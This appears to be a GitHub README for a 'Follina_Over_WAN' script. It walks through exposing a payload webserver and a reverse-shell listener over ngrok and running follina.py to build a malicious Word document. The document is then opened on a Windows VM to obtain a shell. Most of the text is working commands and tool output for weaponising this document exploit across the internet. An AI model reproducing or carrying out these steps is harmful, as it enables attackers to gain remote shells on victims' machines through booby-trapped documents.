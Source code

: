 # How to use Follina_Over_WAN Script
## Cloning the repo 
```bash
    git clone https://github.com/BlackstormCoder/Follina_Over_WAN.git
```
    

    
## Download `ngrok` for the port forwarding
- Create the account on [ngrok](https://ngrok.com/)
- Download the `ngrok`


OR

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
```

- unzip and move the binary to the `/usr/local/bin`

```bash
tar -xvf ngrok-v3-stable-linux-amd64.tgz
mv ngrok /usr/local/bin
```

- Connect your account to the `ngrok`

```bash
ngrok config add-authtoken <token>
```

## Set the `ngrok` and Run the exploit

- Open the `~/.config/ngrok/ngrok.yml` in your fav text editor.
- put this in that file.

```bash
tunnels:
    webserver:
        addr: 80
        proto: http
    follina_reverse:
        addr: 1337
        proto: tcp
```

- Run this command to start the `ngrok`

```bash
ngrok start --all
```

You will get this two url `tcp` and `https` 

`TCP` is used for the reverse shell

`https` is your webserver that will  have the script payload

```bash
Hello World! https://ngrok.com/next-generation

Session Status                online
Account                       REDACTED
Update                        update available (version 3.0.5-rc1, Ctrl-U to update)
Version                       3.0.4
Region                        REDACTED
Latency                       424ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://REDACTED.tcp.in.ngrok.io:18152 -> localhost:1337
Forwarding                    https://REDACTED.in.ngrok.io -> http://localhost:80
```

- Run the exploit

```powershell
➜  Follina_Over_WAN git:(main) python3 follina.py -h

  _        _   _                       __                    _            ___,  , _    
 | |      | | | | o                   /\_\/                 (_|   |   |_//   | /|/ \   
 | |  __  | | | |     _  _    __,    |    |      _   ,_       |   |   | |    |  |   |  
 |/  /  \_|/  |/  |  / |/ |  /  |    |    ||  |_|/  /  |      |   |   | |    |  |   |  
 |__/\__/ |__/|__/|_/  |  |_/\_/|_/   \__/  \/  |__/   |_/     \_/ \_/   \__/\_/|   |_/
 |\                                                                                    
 |/                                                                                    
by Blackstorm
usage: follina.py [-h] [--output OUTPUT] --url URL --ip IP --port PORT

This script is used to make a follina malicious word document with reverse shell binded on it.

options:
  -h, --help            show this help message and exit
  --output OUTPUT, -o OUTPUT
                        output maldoc file
  --url URL, -u URL     Provide ngrok webserver link
  --ip IP, -i IP        provide ngrok tcp address
  --port PORT, -p PORT  Provide ngrok tcp reverse port

I hope you enjoy your maldoc!
➜  Follina_Over_WAN git:(main)
```

```bash
python3 follina.py -u <put https://*.ngrok.io link> -i <put tcp link> -p <port in ngrok>
```

Example: 

```bash
python3 follina.py -u https://REDACTED.in.ngrok.io -i REDACTED.tcp.in.ngrok.io -p 18152
```

## Copy the `follina.doc` to windows VM and run it.

- Start the http webserver in the `Follina_Over_WAN` directory

```bash
python3 -m http.server 8080
```

```bash
┌──(kayo㉿whoami)-[~/Follina_Over_WAN]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.32.130 - - [24/Jun/2022 11:52:09] "GET /follina.doc HTTP/1.1" 200 -
```

- Download the Doc in the windows machine
    - Open the windows PowerShell
    
    ```powershell
    Invoke-WebRequest "192.168.32.128:8080/follina.doc" -OutFile follina.doc
    ```
    
- Open the `Follina.doc`
- Volia!!! You hacked it!! Congratulations !!!

If you want to know more detail about this vulnerability, Check out [my blog]() where I simply explained how it works.

---